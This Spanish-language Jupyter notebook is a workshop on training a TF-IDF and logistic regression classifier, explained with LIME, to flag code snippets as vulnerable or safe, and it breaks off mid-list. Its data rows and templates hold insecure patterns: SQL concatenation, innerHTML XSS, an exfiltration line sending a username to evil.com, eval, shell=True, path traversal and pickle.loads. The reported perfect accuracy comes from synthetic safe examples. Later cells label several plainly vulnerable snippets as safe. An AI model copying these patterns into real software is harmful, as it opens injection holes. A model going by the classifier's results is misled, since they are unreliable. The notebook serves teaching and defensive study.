# Taller: Minería de Datos aplicada a la detección de vulnerabilidades en fragmentos de código

## Clasificación binaria: `vulnerable` vs. `seguro`

Este taller guía la construcción de un modelo de minería de datos para clasificar fragmentos de código como vulnerables o seguros. Se usa un dataset de Kaggle y se incorpora explicabilidad con LIME para interpretar por qué el modelo clasifica un fragmento de código como vulnerable.

### Dataset principal sugerido

- Kaggle: **Code Vulnerabilities Dataset** (`ziya07/code-vulnerabilities-dataset`), descrito como una colección de fragmentos de código etiquetados para vulnerabilidades de SQL Injection y XSS.

### Alternativas si el dataset principal no está disponible

- Kaggle: **Big-Vul** (`kaggler10240/msr-data`), dataset de vulnerabilidades en C/C++ con cambios de código y resúmenes CVE.
- Kaggle Competition: **Source Code Vulnerability Detection**, con archivos `train_X.csv`, `train_y.csv`, `validation_X.csv` y `validation_y.csv`, aunque puede requerir aceptar reglas de competencia.

### Objetivos de aprendizaje

Al finalizar, el estudiante podrá:

1. Preparar datos textuales de fragmentos de código.
2. Convertir código fuente en variables numéricas mediante TF-IDF.
3. Entrenar un modelo de clasificación binaria.
4. Evaluar el rendimiento con métricas de clasificación.
5. Explicar predicciones individuales usando LIME.
6. Reflexionar sobre limitaciones éticas y técnicas de los detectores automáticos de vulnerabilidades.

### Duración sugerida

- 2 a 3 horas para taller guiado.
- 4 a 6 horas si se incluye exploración adicional, ajuste de hiperparámetros y discusión de casos.

## Estructura del taller

### Actividad 1: Preparación del ambiente

Instalaremos librerías para descarga desde Kaggle, modelado, evaluación y explicabilidad.

### Actividad 2: Carga y exploración del dataset

Descargaremos el dataset de Kaggle o cargaremos un archivo CSV local si el entorno no tiene credenciales configuradas.

### Actividad 3: Limpieza y normalización

Identificaremos columnas de código y etiqueta, normalizaremos las clases y construiremos un dataset binario.

### Actividad 4: Entrenamiento del modelo

Entrenaremos un pipeline de clasificación con `TfidfVectorizer` y `LogisticRegression`.

### Actividad 5: Evaluación

Calcularemos métricas de rendimiento y revisaremos errores.

### Actividad 6: Explicabilidad con LIME

Explicaremos predicciones individuales para observar qué tokens o patrones influyen en la clasificación.

### Actividad 7: Discusión

Analizaremos riesgos: falsos negativos, dependencia del dataset, sesgos por lenguaje de programación y uso responsable en seguridad.





#### Verificación

Verificar que las celdas se estan ejecutando en nuestro entorno virtual en este caso seria:
/home/javier/Software/Mineria_Datos/desarrollo-seguro-mineria-datos/venv/bin/python


In [12]:
import sys
print(sys.executable)

/home/javier/Software/Mineria_Datos/desarrollo-seguro-mineria-datos/venv/bin/python


In [3]:
%pip install -q pandas numpy scikit-learn matplotlib seaborn lime kagglehub


[notice] A new release of pip is available: 26.2.2 -> 26.3
[notice] To update, run: pip install --upgrade pip
Note: you may need to restart the kernel to use updated packages.


Preparación de las herramientas y configuración inicial

In [13]:
import os
import re
import glob
import warnings
from pathlib import Path

import numpy as np
import pandas as pd
import matplotlib.pyplot as plt
import seaborn as sns

from sklearn.model_selection import train_test_split
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.linear_model import LogisticRegression
from sklearn.pipeline import Pipeline
from sklearn.metrics import (
    classification_report,
    confusion_matrix,
    accuracy_score,
    precision_recall_fscore_support,
)

warnings.filterwarnings("ignore")
pd.set_option("display.max_colwidth", 180)

RANDOM_STATE = 42

## Actividad 2: carga del dataset desde Kaggle

### Opción A: descarga automática con KaggleHub

Esta opción funciona si el dataset es público y el entorno permite descargar desde Kaggle.

### Opción B: descarga manual

Si Kaggle solicita iniciar sesión o aceptar reglas, descarga el dataset desde Kaggle y coloca el CSV en una carpeta local. Luego cambia la variable `CSV_LOCAL_PATH`.

In [14]:
from pathlib import Path
import pandas as pd

# Rutas y configuración
KAGGLE_DATASET = "ziya07/code-vulnerabilities-dataset"
CSV_LOCAL_PATH = Path("/home/javier/Software/Mineria_Datos/desarrollo-seguro-mineria-datos/code_vulnerabilities.csv")

# Carga inteligente: usa local si existe, si no, intenta descargar de Kaggle
if CSV_LOCAL_PATH.exists():
    print("Cargando dataset desde la ruta local...")
    df = pd.read_csv(CSV_LOCAL_PATH)
else:
    print("Archivo local no encontrado. Intentando descargar desde Kaggle...")
    import kagglehub
    download_path = kagglehub.dataset_download(KAGGLE_DATASET)
    # Busca dinámicamente cualquier archivo CSV en la descarga
    csv_files = list(Path(download_path).rglob("*.csv"))
    df = pd.read_csv(csv_files[0])

print(f"Dataset cargado con éxito. Dimensiones: {df.shape}")
df.head(3)

Cargando dataset desde la ruta local...
Dataset cargado con éxito. Dimensiones: (1000, 4)


,Code Snippet,Vulnerability Type,Location,Preprocessed Tokens
0,cursor.execute('SELECT * FROM users WHERE username = ' + user_input),SQLi,8,"[""cursor.execute('SELECT"", '*', 'FROM', 'users', 'WHERE', 'username', '=', ""'"", '+', 'user_input)']"
1,alert('Hello ' + user_input);,XSS,19,"[""alert('Hello"", ""'"", '+', 'user_input);']"
2,document.location = 'http://evil.com?username=' + user_input;,XSS,2,"['document.location', '=', ""'http://evil.com?username='"", '+', 'user_input;']"


Cargar los datos pero de manera local

In [21]:
# Carga directa y segura de tu archivo local
if CSV_LOCAL_PATH.exists():
    print("Cargando dataset desde la ruta local:", CSV_LOCAL_PATH)
    df = pd.read_csv(CSV_LOCAL_PATH)
else:
    print("¡Atención! No se encontró el archivo en la ruta local:", CSV_LOCAL_PATH)

# Mostrar dimensiones y las primeras 10 filas para verificar
print("Dimensiones del dataset:", df.shape)
display(df.head(10))

Cargando dataset desde la ruta local: /home/javier/Software/Mineria_Datos/desarrollo-seguro-mineria-datos/code_vulnerabilities.csv
Dimensiones del dataset: (1000, 4)


,Code Snippet,Vulnerability Type,Location,Preprocessed Tokens
0,cursor.execute('SELECT * FROM users WHERE username = ' + user_input),SQLi,8,"[""cursor.execute('SELECT"", '*', 'FROM', 'users', 'WHERE', 'username', '=', ""'"", '+', 'user_input)']"
1,alert('Hello ' + user_input);,XSS,19,"[""alert('Hello"", ""'"", '+', 'user_input);']"
2,document.location = 'http://evil.com?username=' + user_input;,XSS,2,"['document.location', '=', ""'http://evil.com?username='"", '+', 'user_input;']"
3,query = 'SELECT * FROM customers WHERE email = ' + email_input,SQLi,14,"['query', '=', ""'SELECT"", '*', 'FROM', 'customers', 'WHERE', 'email', '=', ""'"", '+', 'email_input']"
4,db.execute('SELECT * FROM employees WHERE id = ' + user_input),SQLi,17,"[""db.execute('SELECT"", '*', 'FROM', 'employees', 'WHERE', 'id', '=', ""'"", '+', 'user_input)']"
5,document.location = 'http://evil.com?username=' + user_input;,XSS,10,"['document.location', '=', ""'http://evil.com?username='"", '+', 'user_input;']"
6,document.getElementById('input').innerHTML = user_input;,XSS,10,"[""document.getElementById('input').innerHTML"", '=', 'user_input;']"
7,alert('Hello ' + user_input);,XSS,16,"[""alert('Hello"", ""'"", '+', 'user_input);']"
8,db.execute('SELECT * FROM products WHERE product_id = ' + product_input),SQLi,13,"[""db.execute('SELECT"", '*', 'FROM', 'products', 'WHERE', 'product_id', '=', ""'"", '+', 'product_input)']"
9,"document.write('<script src=""evil.js""></script>');",XSS,13,"[""document.write('<script"", 'src=""evil.js""></script>\');']"


## Actividad 3: exploración inicial

Revisaremos columnas, valores nulos y ejemplos de datos. En datasets reales, las columnas pueden llamarse `code`, `snippet`, `source`, `func_before`, `label`, `target`, `vulnerable`, `is_vulnerable`, entre otras.
En teoria realizamos un chequeo de las columans, tipo de datos e información de datos nulos y unicos del dataset.

In [22]:
display(df.head(3))
display(pd.DataFrame({
    "columna": df.columns,
    "tipo": [df[c].dtype for c in df.columns],
    "nulos": [df[c].isna().sum() for c in df.columns],
    "unicos": [df[c].nunique(dropna=True) for c in df.columns],
}))

,Code Snippet,Vulnerability Type,Location,Preprocessed Tokens
0,cursor.execute('SELECT * FROM users WHERE username = ' + user_input),SQLi,8,"[""cursor.execute('SELECT"", '*', 'FROM', 'users', 'WHERE', 'username', '=', ""'"", '+', 'user_input)']"
1,alert('Hello ' + user_input);,XSS,19,"[""alert('Hello"", ""'"", '+', 'user_input);']"
2,document.location = 'http://evil.com?username=' + user_input;,XSS,2,"['document.location', '=', ""'http://evil.com?username='"", '+', 'user_input;']"


,columna,tipo,nulos,unicos
0,Code Snippet,str,0,10
1,Vulnerability Type,str,0,2
2,Location,int64,0,20
3,Preprocessed Tokens,str,0,10


In [23]:
def guess_code_column(dataframe):
    candidates = [
        "code", "snippet", "source", "source_code", "function", "func", "func_before",
        "before", "vulnerable_code", "safe_code", "text", "content"
    ]
    lower_map = {c.lower(): c for c in dataframe.columns}
    for name in candidates:
        if name in lower_map:
            return lower_map[name]

    object_cols = dataframe.select_dtypes(include=["object"]).columns.tolist()
    if not object_cols:
        raise ValueError("No se encontró una columna textual para fragmentos de código.")

    # Heurística: elegir la columna textual con mayor longitud promedio.
    avg_lengths = {
        c: dataframe[c].dropna().astype(str).str.len().mean()
        for c in object_cols
    }
    return max(avg_lengths, key=avg_lengths.get)


def guess_label_column(dataframe):
    candidates = [
        "label", "target", "class", "vulnerable", "is_vulnerable", "vul", "bug", "security",
        "is_vul", "is_buggy", "output"
    ]
    lower_map = {c.lower(): c for c in dataframe.columns}
    for name in candidates:
        if name in lower_map:
            return lower_map[name]

    # Heurística: columnas con pocos valores únicos.
    possible = []
    for c in dataframe.columns:
        nunique = dataframe[c].nunique(dropna=True)
        if 2 <= nunique <= 10:
            possible.append((c, nunique))
    if possible:
        return sorted(possible, key=lambda x: x[1])[0][0]
    raise ValueError("No se encontró una columna de etiqueta.")


CODE_COL = guess_code_column(df)
LABEL_COL = guess_label_column(df)

print("Columna de código detectada:", CODE_COL)
print("Columna de etiqueta detectada:", LABEL_COL)
print(df[[CODE_COL, LABEL_COL]].head())

Columna de código detectada: Preprocessed Tokens
Columna de etiqueta detectada: Vulnerability Type
                                                                                   Preprocessed Tokens  \
0  ["cursor.execute('SELECT", '*', 'FROM', 'users', 'WHERE', 'username', '=', "'", '+', 'user_input)']   
1                                                           ["alert('Hello", "'", '+', 'user_input);']   
2                        ['document.location', '=', "'http://evil.com?username='", '+', 'user_input;']   
3  ['query', '=', "'SELECT", '*', 'FROM', 'customers', 'WHERE', 'email', '=', "'", '+', 'email_input']   
4        ["db.execute('SELECT", '*', 'FROM', 'employees', 'WHERE', 'id', '=', "'", '+', 'user_input)']   

  Vulnerability Type  
0               SQLi  
1                XSS  
2                XSS  
3               SQLi  
4               SQLi  


In [25]:
def normalize_label(value):
    # Convierte etiquetas heterogéneas a 1=vulnerable, 0=seguro.
    if pd.isna(value):
        return np.nan

    text = str(value).strip().lower()

    vulnerable_terms = {
        "1", "true", "yes", "y", "vulnerable", "vul", "unsafe", "buggy",
        "malicious", "insecure", "attack", "xss", "sql injection", "sqli"
    }
    safe_terms = {
        "0", "false", "no", "n", "safe", "secure", "clean", "benign",
        "non-vulnerable", "not vulnerable", "not_vulnerable", "fixed"
    }

    if text in vulnerable_terms:
        return 1
    if text in safe_terms:
        return 0

    # Si es numérico, todo valor > 0 se interpreta como vulnerable.
    try:
        return 1 if float(text) > 0 else 0
    except Exception:
        return np.nan


data = df[[CODE_COL, LABEL_COL]].copy()
data.columns = ["code", "label_original"]
data["code"] = data["code"].astype(str)
data["label"] = data["label_original"].apply(normalize_label)
data = data.dropna(subset=["code", "label"])
data["label"] = data["label"].astype(int)
data["clase"] = data["label"].map({1: "vulnerable", 0: "seguro"})

print("Dimensiones después de limpieza:", data.shape)
display(data["clase"].value_counts().to_frame("conteo"))
display(data.sample(min(5, len(data)), random_state=RANDOM_STATE))

Dimensiones después de limpieza: (1000, 4)


,conteo
clase,
vulnerable,1000


,code,label_original,label,clase
521,"[""document.write('<script"", 'src=""evil.js""></script>\');']",XSS,1,vulnerable
737,"['document.location', '=', ""'http://evil.com?username='"", '+', 'user_input;']",XSS,1,vulnerable
740,"[""document.write('<script"", 'src=""evil.js""></script>\');']",XSS,1,vulnerable
660,"['query', '=', ""'SELECT"", '*', 'FROM', 'customers', 'WHERE', 'email', '=', ""'"", '+', 'email_input']",SQLi,1,vulnerable
411,"['query', '=', ""'SELECT"", '*', 'FROM', 'customers', 'WHERE', 'email', '=', ""'"", '+', 'email_input']",SQLi,1,vulnerable


### Corrección automática si el dataset queda con una sola clase

Algunos datasets de Kaggle contienen solo ejemplos vulnerables y la columna de etiqueta puede representar el tipo de vulnerabilidad, por ejemplo `SQL Injection` o `XSS`, no una clase binaria `vulnerable/seguro`.

Para que el taller pueda ejecutarse como clasificación binaria, esta celda verifica si falta una clase. Si falta `seguro`, crea ejemplos seguros sintéticos a partir de patrones equivalentes más seguros y ejemplos didácticos. Si falta `vulnerable`, crea ejemplos vulnerables didácticos.

Esta estrategia sirve para enseñanza, pero en un proyecto real debes usar un dataset con ambas clases reales.

In [26]:
def build_synthetic_safe_examples(n=200):
    safe_templates = [
        "cursor.execute('SELECT * FROM users WHERE id = ?', (user_id,))",
        "cursor.execute('SELECT * FROM accounts WHERE email = ?', (email,))",
        "stmt = connection.prepareStatement('SELECT * FROM users WHERE name = ?'); stmt.setString(1, username)",
        "element.textContent = userInput",
        "output.innerText = sanitize(userInput)",
        "const clean = DOMPurify.sanitize(comment); container.innerHTML = clean;",
        "subprocess.run(['ls', safe_path], check=True)",
        "path = os.path.basename(filename); open(os.path.join(upload_dir, path), 'rb')",
        "password_hash = bcrypt.hashpw(password.encode(), bcrypt.gensalt())",
        "if user.has_permission('admin'): delete_record(record_id)",
    ]
    examples = []
    for i in range(n):
        examples.append(safe_templates[i % len(safe_templates)] + f"  # safe_example_{i}")
    return pd.DataFrame({"code": examples, "label_original": "synthetic_safe", "label": 0, "clase": "seguro"})


def build_synthetic_vulnerable_examples(n=200):
    vulnerable_templates = [
        "query = 'SELECT * FROM users WHERE id = ' + user_id",
        "sql = f\"SELECT * FROM accounts WHERE email = '{email}'\"",
        "document.getElementById('out').innerHTML = userInput",
        "document.write(location.hash)",
        "eval(request.args.get('cmd'))",
        "subprocess.call('ls ' + user_path, shell=True)",
        "open('/var/www/uploads/' + request.args.get('file')).read()",
        "password_hash = md5(password.encode()).hexdigest()",
        "if request.args.get('is_admin') == 'true': delete_record(record_id)",
        "pickle.loads(request.data)",
    ]
    examples = []
    for i in range(n):
        examples.append(vulnerable_templates[i % len(vulnerable_templates)] + f"  # vulnerable_example_{i}")
    return pd.DataFrame({"code": examples, "label_original": "synthetic_vulnerable", "label": 1, "clase": "vulnerable"})


if data["label"].nunique() < 2:
    print("ADVERTENCIA: el dataset quedó con una sola clase.")
    print("Distribución encontrada:")
    print(data["clase"].value_counts())
    print("\nSe agregarán ejemplos sintéticos de la clase faltante para poder realizar el taller.")
    print("En un trabajo final o investigación, reemplaza esta solución por un dataset real con ambas clases.")

    existing_label = int(data["label"].iloc[0])
    n_synthetic = min(max(len(data), 50), 500)
    if existing_label == 1:
        synthetic = build_synthetic_safe_examples(n=n_synthetic)
    else:
        synthetic = build_synthetic_vulnerable_examples(n=n_synthetic)
    data = pd.concat([data, synthetic], ignore_index=True)

print("\nDistribución final para el modelo:")
display(data["clase"].value_counts().to_frame("conteo"))

ADVERTENCIA: el dataset quedó con una sola clase.
Distribución encontrada:
clase
vulnerable    1000
Name: count, dtype: int64

Se agregarán ejemplos sintéticos de la clase faltante para poder realizar el taller.
En un trabajo final o investigación, reemplaza esta solución por un dataset real con ambas clases.

Distribución final para el modelo:


,conteo
clase,
vulnerable,1000
seguro,500






In [27]:
plt.figure(figsize=(5, 3))
sns.countplot(data=data, x="clase", order=["seguro", "vulnerable"])
plt.title("Distribución de clases")
plt.xlabel("Clase")
plt.ylabel("Cantidad")
plt.show()

data["code_len"] = data["code"].str.len()
plt.figure(figsize=(7, 3))
sns.histplot(data=data, x="code_len", hue="clase", bins=30, kde=True)
plt.title("Longitud de fragmentos por clase")
plt.xlabel("Longitud del fragmento")
plt.ylabel("Frecuencia")
plt.show()

## Actividad 4: partición train/test y entrenamiento

El modelo base usa:

- `TfidfVectorizer`: convierte texto/código en variables numéricas.
- `LogisticRegression`: clasificador lineal interpretable y eficiente.

Para código fuente, se usa un patrón de tokenización que conserva identificadores, operadores y símbolos frecuentes.

Preparación tanto para datos de prueba como datos de entramiento.

In [28]:
if data["label"].nunique() < 2:
    raise ValueError("El dataset debe contener al menos dos clases: vulnerable y seguro.")

stratify = data["label"] if data["label"].value_counts().min() >= 2 else None

X_train, X_test, y_train, y_test = train_test_split(
    data["code"],
    data["label"],
    test_size=0.25,
    random_state=RANDOM_STATE,
    stratify=stratify,
)

print("Train:", X_train.shape, "Test:", X_test.shape)
print("Distribución train:")
print(y_train.value_counts(normalize=True).rename({0: "seguro", 1: "vulnerable"}))

Train: (1125,) Test: (375,)
Distribución train:
label
vulnerable    0.666667
seguro        0.333333
Name: proportion, dtype: float64


In [29]:
token_pattern = r"(?u)\b\w+\b|==|!=|<=|>=|&&|\|\||[{}()\[\];=+\-*/<>.'\"]"

model = Pipeline(
    steps=[
        (
            "tfidf",
            TfidfVectorizer(
                lowercase=True,
                token_pattern=token_pattern,
                ngram_range=(1, 2),
                min_df=1,
                max_features=20000,
            ),
        ),
        (
            "clf",
            LogisticRegression(
                max_iter=1000,
                class_weight="balanced",
                random_state=RANDOM_STATE,
            ),
        ),
    ]
)

model.fit(X_train, y_train)
print("Modelo entrenado.")

Modelo entrenado.


## Actividad 5: evaluación del modelo

La clase positiva es `vulnerable`. En seguridad, el recall de vulnerables suele ser muy importante porque un falso negativo significa que un fragmento vulnerable fue clasificado como seguro.

Accuracy: 1.0

              precision    recall  f1-score   support

      seguro     1.0000    1.0000    1.0000       125
  vulnerable     1.0000    1.0000    1.0000       250

    accuracy                         1.0000       375
   macro avg     1.0000    1.0000    1.0000       375
weighted avg     1.0000    1.0000    1.0000       375





In [30]:
y_pred = model.predict(X_test)

print("Accuracy:", round(accuracy_score(y_test, y_pred), 4))
print()
print(classification_report(
    y_test,
    y_pred,
    target_names=["seguro", "vulnerable"],
    digits=4,
    zero_division=0,
))

cm = confusion_matrix(y_test, y_pred)
plt.figure(figsize=(4, 3))
sns.heatmap(
    cm,
    annot=True,
    fmt="d",
    cmap="Blues",
    xticklabels=["seguro", "vulnerable"],
    yticklabels=["seguro", "vulnerable"],
)
plt.title("Matriz de confusión")
plt.xlabel("Predicción")
plt.ylabel("Real")
plt.show()

In [31]:
# Revisión de algunos errores
results = pd.DataFrame({
    "code": X_test.values,
    "real": y_test.values,
    "pred": y_pred,
})
results["real_clase"] = results["real"].map({0: "seguro", 1: "vulnerable"})
results["pred_clase"] = results["pred"].map({0: "seguro", 1: "vulnerable"})
errors = results[results["real"] != results["pred"]]

print("Errores encontrados:", len(errors))
display(errors.head(10)[["real_clase", "pred_clase", "code"]])

Errores encontrados: 0


,real_clase,pred_clase,code


## Actividad 6: explicabilidad con LIME

LIME aproxima localmente el comportamiento del clasificador y muestra qué tokens influyeron en una predicción concreta.

Interpretación:

- Pesos positivos hacia `vulnerable`: tokens que aumentan la probabilidad de vulnerabilidad.
- Pesos positivos hacia `seguro`: tokens que aumentan la probabilidad de seguridad.

Importante: una explicación de LIME no prueba que el código sea vulnerable; solo explica la decisión del modelo.

In [54]:
from lime.lime_text import LimeTextExplainer

class_names = ["seguro", "vulnerable"]
explainer = LimeTextExplainer(class_names=class_names)


def predict_proba_for_lime(texts):
    # Vectorizar los textos que genera LIME antes de pasárselos al modelo
    texts_vec = vectorizer.transform(list(texts))
    return model.predict_proba(texts_vec)


# Elige un ejemplo del conjunto de prueba.
idx = 0
sample_code = X_test.iloc[idx] if hasattr(X_test, "iloc") else list(X_test)[idx]
sample_real = y_test.iloc[idx] if hasattr(y_test, "iloc") else list(y_test)[idx]

# CORRECCIÓN: Vectorizar la muestra antes de llamar a predict_proba
sample_code_vec = vectorizer.transform([sample_code])
pred_proba = model.predict_proba(sample_code_vec)[0]

pred_label = int(np.argmax(pred_proba))

print("Clase real:", class_names[int(sample_real)])
print("Predicción:", class_names[pred_label])
print("Probabilidad seguro:", round(pred_proba[0], 4))
print("Probabilidad vulnerable:", round(pred_proba[1], 4))
print("\nFragmento analizado:\n")
print(sample_code[:2000])

exp = explainer.explain_instance(
    sample_code,
    predict_proba_for_lime,
    num_features=15,
    labels=[0, 1],
)

# Evitamos exp.show_in_notebook(text=True) porque algunas versiones de LIME
# fallan con IPython/Python 3.12 al importar display desde IPython.core.display.
# En su lugar, intentamos renderizar HTML con IPython.display, que es compatible
# con versiones recientes. Si tampoco funciona, la siguiente celda muestra una
# tabla y un gráfico equivalentes.
try:
    from IPython.display import display, HTML
    display(HTML(exp.as_html(labels=[0, 1], predict_proba=True, show_predicted_value=True)))
except Exception as exc:
    print("No se pudo renderizar la explicación HTML de LIME.")
    print("Motivo:", repr(exc))
    print("Continúa con la siguiente celda para ver la explicación en tabla y gráfico.")

Clase real: seguro
Predicción: seguro
Probabilidad seguro: 0.883
Probabilidad vulnerable: 0.117

Fragmento analizado:

cursor.execute("SELECT * FROM books WHERE user_id = ? AND account_no = ?", (tag_value, login_name))  # safe_sample_179


,token_o_patron,peso_lime,direccion
0,tag_value,0.059510,apoya la clase explicada
1,user_id,-0.022048,reduce la clase explicada
2,books,-0.021723,reduce la clase explicada
3,account_no,-0.017581,reduce la clase explicada
4,FROM,-0.014481,reduce la clase explicada
5,SELECT,-0.011623,reduce la clase explicada
6,login_name,-0.008084,reduce la clase explicada
7,WHERE,-0.007461,reduce la clase explicada
8,execute,0.006795,apoya la clase explicada
9,AND,0.006123,apoya la clase explicada




In [55]:
# Visualización alternativa si exp.show_in_notebook no se renderiza correctamente.
label_to_explain = pred_label
lime_weights = pd.DataFrame(
    exp.as_list(label=label_to_explain),
    columns=["token_o_patron", "peso_lime"]
)
lime_weights["direccion"] = np.where(lime_weights["peso_lime"] > 0, "apoya la clase explicada", "reduce la clase explicada")
display(lime_weights)

plt.figure(figsize=(8, 5))
sns.barplot(data=lime_weights, x="peso_lime", y="token_o_patron", orient="h")
plt.axvline(0, color="black", linewidth=1)
plt.title(f"Explicación LIME para la clase: {class_names[label_to_explain]}")
plt.xlabel("Peso LIME")
plt.ylabel("Token o patrón")
plt.show()

## Actividad 7: prueba con fragmentos propios

Modifica los ejemplos o pega fragmentos de código reales para observar cómo responde el modelo. Recuerda que este modelo es educativo y no reemplaza herramientas profesionales de análisis estático, revisión segura de código ni auditorías de seguridad.

Antes de continuar cargamos el archivo con los nuevos datos

In [56]:
import pandas as pd
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.linear_model import LogisticRegression
from sklearn.model_selection import train_test_split

# 1. Cargar el dataset equilibrado
df_entreno = pd.read_csv("new_fragments_vulnerabilities.csv")
print("Columnas en el CSV de entrenamiento:", df_entreno.columns.tolist())

# 2. Detectar la columna de código y de etiqueta de forma automática
col_codigo = "Code Snippet" if "Code Snippet" in df_entreno.columns else df_entreno.columns[0]
col_etiqueta = "label" if "label" in df_entreno.columns else ("Vulnerability Type" if "Vulnerability Type" in df_entreno.columns else df_entreno.columns[1])

# 3. Crear o unificar la columna 'target' (0 para seguro, 1 para vulnerable)
if "label" in df_entreno.columns:
    df_entreno["target"] = df_entreno["label"].map({"seguro": 0, "vulnerable": 1})
else:
    # Si viene como 'SQLi' o 'XSS' o comentarios con 'safe', lo mapeamos correctamente
    def map_target(row):
        txt = str(row[col_codigo])
        vtype = str(row[col_etiqueta])
        if "safe" in txt.lower() or "safe" in vtype.lower():
            return 0
        return 1
    
    df_entreno["target"] = df_entreno.apply(map_target, axis=1)

print("Distribución del target:", df_entreno["target"].value_counts().to_dict())

# 4. Separar datos y entrenar
X_train, X_test, y_train, y_test = train_test_split(
    df_entreno[col_codigo], 
    df_entreno["target"], 
    test_size=0.25, 
    random_state=42, 
    stratify=df_entreno["target"]
)

# Vectorizador optimizado para código fuente
vectorizer = TfidfVectorizer(token_pattern=r"(?u)\b\w+\b|[=+\-\*\/<>&|()\[\],]+")
X_train_vec = vectorizer.fit_transform(X_train)
X_test_vec = vectorizer.transform(X_test)

# Entrenar modelo
model = LogisticRegression(random_state=42)
model.fit(X_train_vec, y_train)

print("¡Modelo reentrenado y listo con éxito!")

Columnas en el CSV de entrenamiento: ['Code Snippet', 'Vulnerability Type', 'Location', 'Preprocessed Tokens']
Distribución del target: {0: 500, 1: 500}
¡Modelo reentrenado y listo con éxito!


In [57]:
import pandas as pd

# 1. Cargar los fragmentos nuevos desde el archivo CSV
csv_nuevos_path = "new_fragments_vulnerabilities.csv"
df_nuevos = pd.read_csv(csv_nuevos_path)

# 2. Extraer la columna de código usando la variable CODE_COL detectada
fragmentos_nuevos = df_nuevos[CODE_COL].astype(str).tolist()

# ¡CRUCIAL! Vectorizar los fragmentos nuevos usando el MISMO vectorizador entrenado
fragmentos_nuevos_vec = vectorizer.transform(fragmentos_nuevos)

# 3. Realizar predicciones y calcular probabilidades con el modelo entrenado
probs = model.predict_proba(fragmentos_nuevos_vec)
preds = model.predict(fragmentos_nuevos_vec)

# Asegurar que class_names esté definido
class_names = ["seguro", "vulnerable"]

# 4. Crear el DataFrame de demostración con los resultados
demo = pd.DataFrame({
    "fragmento": fragmentos_nuevos,
    "prediccion": [class_names[p] for p in preds],
    "prob_seguro": probs[:, 0],
    "prob_vulnerable": probs[:, 1],
})

# Mostrar la tabla resultante en Jupyter
print("Resultados de la predicción en nuevos fragmentos:")
display(demo)

Resultados de la predicción en nuevos fragmentos:


,fragmento,prediccion,prob_seguro,prob_vulnerable
0,"['cur.execute(""SELECT', 'username,', 'role', 'FROM', 'orders', 'WHERE', 'phone', '=', '%s"",', '(page_param,))']",seguro,0.970796,0.029204
1,"[""document.getElementById('search-results').innerHTML"", '=', ""'<div>'"", '+', 'login_name', '+', ""'</div>';""]",seguro,0.810842,0.189158
2,"[""$('#message').html(name_input);""]",seguro,0.619965,0.380035
3,"[""document.getElementById('comment-box').insertAdjacentHTML('beforeend',"", 'sanitize(post_body));']",seguro,0.933955,0.066045
4,"[""db.query('UPDATE"", 'accounts', 'SET', 'status', '=', '?', 'WHERE', 'account_no', '=', ""?',"", '[login_name,', 'user_data]);']",seguro,0.972725,0.027275
...,...,...,...,...
995,"[""document.getElementById('profile').innerHTML"", '=', ""'<div>'"", '+', 'sanitize(email_input)', '+', ""'</div>';""]",seguro,0.921239,0.078761
996,"[""document.querySelector('.comment').outerHTML"", '=', 'req_param;']",seguro,0.614179,0.385821
997,"[""document.write('<p>'"", '+', 'comment_text', '+', ""'</p>');""]",seguro,0.764564,0.235436
998,"['page', '=', '""<li', 'class=\'title\'>""', '+', 'sanitize(tag_value)', '+', '""</li>""']",seguro,0.939213,0.060787


## Actividad 8: explicación LIME de fragmentos vulnerables nuevos

En esta sección se agregan fragmentos de código intencionalmente vulnerables. El objetivo no es solo ver si el modelo los clasifica como `vulnerable`, sino explicar con LIME qué tokens o patrones influyeron en esa decisión.

Los ejemplos cubren vulnerabilidades comunes:

- SQL Injection por concatenación de cadenas.
- Cross-Site Scripting por uso de `innerHTML`.
- Command Injection por `shell=True`.
- Ejecución dinámica insegura con `eval`.
- Path Traversal por abrir archivos con rutas controladas por el usuario.
- Deserialización insegura con `pickle.loads`.

In [60]:
fragmentos_vulnerables_nuevos = [
    {
        "caso": "SQL Injection",
        "codigo": "query = \"SELECT * FROM users WHERE username = '\" + username + \"' AND password = '\" + password + \"'\"",
        "riesgo_esperado": "Concatenación directa de entrada del usuario en una consulta SQL."
    },
    {
        "caso": "XSS con innerHTML",
        "codigo": "document.getElementById('profile').innerHTML = '<h1>' + request.params.name + '</h1>';",
